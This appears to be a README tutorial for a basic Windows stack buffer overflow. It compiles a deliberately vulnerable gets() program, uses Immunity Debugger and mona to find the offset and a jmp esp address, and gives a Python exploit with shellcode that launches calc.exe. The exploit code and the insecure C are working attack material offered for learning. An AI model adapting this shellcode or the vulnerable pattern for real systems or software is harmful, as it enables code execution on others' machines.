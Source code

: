 # Basic bufferover

Required software

- python 2.7.x
- Immunity debugger - https://www.immunityinc.com/products/debugger/
- MinGW (gcc) - https://sourceforge.net/projects/mingw-w64/files/Toolchains%20targetting%20Win32/Automated%20Builds/


# Write a program

Write code

```
#include <stdio.h>

int main() {
char str[50];

printf("Enter your name");
gets(str);
printf("Hello %s\n", str);

return 0;
}
```

Compile

```
gcc -m32 overflow.c -o overflow.exe
```

# Load Debugger

load immunity and use the folder or file to open and then locate overflow.exe
at the bottom of the screen set a working directory
```
!mona config -set workingfolder c:\mona\%p
```

open pattern.txt and copy and paste the pattern into your exe
```
!mona pc 100
```

use this as a pattern offset to workout how many junk bites are required in our case 62 bytes are junk
```
!mona po 31634130
```

look for a esp jump command to workout where your payload would be

```
!mona jmp -r esp -m kernel
```

```
Log data, item 24
 Address=76C9FB75
 Message=  0x76c9fb75 (b+0x0013fb75)  : jmp esp |  {PAGE_EXECUTE_READ} [KERNELBASE.dll] ASLR: True, Rebase: True, SafeSEH: True, OS: True, v10.0.17763.1 (C:\WINDOWS\System32\KERNELBASE.dll)
```

# Write the expoilt

Use python

2nd line - 62 junk bytes
3rd line - esp jump address input it backwards
4th line - exec calc.exe in hex

5/6 opens payload and excutes


```
from subprocess import Popen, PIPE
payload = b"\xc4"*62
payload += b"\x75\xFB\xC9\x76"
payload += (b"\x90\x90\x90\x90\x90\x90\x90\x31\xdb\x64\x8b\x7b\x30\x8b\x7f"
b"\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b\x77\x20\x8b\x3f\x80\x7e\x0c\x33\x75\xf2\x89\xc7"
b"\x03\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x89\xdd\x8b\x34\xaf\x01\xc6"
b"\x45\x81\x3e\x43\x72\x65\x61\x75\xf2\x81\x7e\x08\x6f\x63\x65\x73\x75\xe9\x8b\x7a"
b"\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9"
b"\xb1\xff\x53\xe2\xfd\x68\x63\x61\x6c\x63\x89\xe2\x52\x52\x53\x53\x53\x53\x53\x53\x52\x53\xff\xd7")

p = Popen(["overflow.exe"], stdout=PIPE, stdin=PIPE)
p.communicate(payload)
```

